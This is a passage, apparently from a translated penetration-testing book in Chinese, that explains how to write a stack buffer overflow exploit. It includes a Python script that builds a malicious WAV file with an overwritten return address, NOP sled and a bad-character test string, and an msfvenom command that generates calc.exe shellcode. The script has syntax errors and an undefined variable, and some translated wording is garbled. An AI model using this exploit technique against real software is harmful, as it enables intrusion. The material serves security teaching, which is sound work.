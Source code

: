 现在我们知道了堆栈空间和偏移量，可以调整脚本以搜索潜在的坏字符。接下来，我们在代码末尾添加一个 NOP 底座，以确保跳转到 ESP 幻灯片的执行，直到跳转到可执行代码为止。我们通过计算我们必须使用的整个区域并从中减去偏移量和外壳代码来实现这一点。

然后，我们创建一个 NOP 雪橇，占据剩余区域。执行此操作的最简单方法是使用类似于`nop = "\x90"*(320-len(shell)-len(offset))`的方程式。更新后的 Python 代码如下所示。使用下面的 Python 脚本，我们可以测试坏字符；请注意，我们必须在初始大小调整后执行此操作，因为我们的问题区域将位于剩余的堆栈空间中。

```
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
characters"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e"
"\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d"
"\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c"
"\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b"
"\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a"
"\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59"
"\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68"
"\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77"
"\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86"
"\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95"
"\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4"
"\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3"
"\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1"
"\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe"
"\xff")
nop = "\x90"*(available_shellcode_space-len(shell)-len(offset))
exploit = fill + eip + offset + shell + nop
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

我们应该生成程序将跳转到的模拟外壳代码。对于初始测试用例，您希望从一个没有任何其他依赖关系的简单示例开始。因此，我们可以告诉注入的代码调用`calc.exe`的实例。要做到这一点，我们所要做的就是使用`msfvenom`生成 shell 代码。

```
msfvenom -p windows/exec CMD=calc.exe -f c -b '\x00\xff'

```

这样做的目的是以可以放入 Python 元组的格式生成外壳代码，并删除潜在的坏字符`'\x00'`、`'\xff'`。像`msfvenom`这样的工具通过使用编码器自动为我们实现这一点。编码器的目的是删除坏字符；有一个很大的误解，他们被用来绕过臀部像防病毒。

几年前，HIPS 中的基本特征分析可能没有发现漏洞，因为它与非常特定的特征不匹配。如今，安全工具开发人员已经变得越来越好，触发器在设计上更具分析性。因此，编码器帮助阻止 HIPS 解决方案捕获漏洞的谬误终于消失了。

![Writing a basic buffer overflow exploit](../Images/image00396.jpeg)
